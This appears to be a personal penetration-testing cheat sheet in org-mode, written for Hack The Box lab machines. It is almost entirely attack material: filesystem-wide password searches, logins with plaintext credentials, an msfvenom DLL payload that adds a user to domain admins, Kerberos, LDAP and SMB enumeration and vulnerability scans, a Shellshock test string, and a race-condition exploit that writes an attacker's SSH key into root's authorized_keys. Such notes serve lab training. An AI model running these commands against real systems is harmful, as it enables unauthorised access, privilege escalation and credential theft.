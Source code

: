 #+TITLE: Pentest Notes


* Useful commands

grep --color=auto -rnw '/' -ie PASSWORD --color=always 2> /dev/null
find . -type f -exec grep -i -I PASSWORD {} /dev/null \;
echo "PleaseSubscribe!" | hashcat -r OneRuleToRuleThemAll.rule --stdout > ~/htb/delivery/wordlist.txt


++++++++++++ WINDOWS +++++++++++++++++++++++++++++
evil-winrm -u ryan -p Serv3r4Admin4cc123! -i 10.10.10.169

msfvenom -p windows/x64/exec cmd='net group "domain admins" ryan /add /domain' --platform windows -f dll > /root/resolute/dns.dll

python -m SimpleHTTPServer

nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='megabank.local',userdb=/usr/share/seclists/Usernames/Names/names.txt res

nmap -p389 --script ldap-search res


========== smb -p 445 =================
smbclient -L 10.10.10.169

smbclient -L \\\10.10.10.169 -U zach%Welcome123!

nmap -p 445 -A 192.168.1.101


nmap --script smb-vuln* -p 445 192.168.1.101

=======================================

nmap -vv -p 389 --script ldap-rootdse res

++++++++++++++++++++++++++++++++++++++++++++++++++++

nmap -sC -sV -T4 -p- -Pn res

wfuzz --hh 24 -u http://docker.hackthebox.eu:31635/api/action.php?FUZZ=test --hc 400,403,404 -w /usr/share/dirb/wordlists/big.txt 


fcrackzip -v -D -u -p clanswer.txt lmao.zip


The Bash Bug vulnerability (CVE-2014-6271) ssh testuser@localhost '() { :;}; echo MALICIOUS CODE' 


+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
SIMPLE RACE CONDITION .SH

CODE.SH :

#!/bin/bash

checkAdded() {

	sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)

	if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then

		/bin/echo "Successfully added $sshName to authorized_keys file!"

	else

		/bin/echo "Error in adding $sshName to authorized_keys file!"

	fi

}

checkFile() {

	if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then

		/bin/echo "Error in creating key file!"

		if [[ -f $1 ]]; then /bin/rm $1; fi

		exit 1

	fi

}

addKey() {

	tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)

	(umask 110; touch $tmpName)

	/bin/echo $key >>$tmpName

	checkFile $tmpName

	/bin/cat $tmpName >>/root/.ssh/authorized_keys

	/bin/rm $tmpName

}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded




SCRIPT 1 SH :

while true
do
echo "ssh-rsa key" | tee /tmp/ssh-*
done



SCRIPT 2 SH:




while true
do
echo "ssh-rsa key" | tee /tmp/ssh-*
done

+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
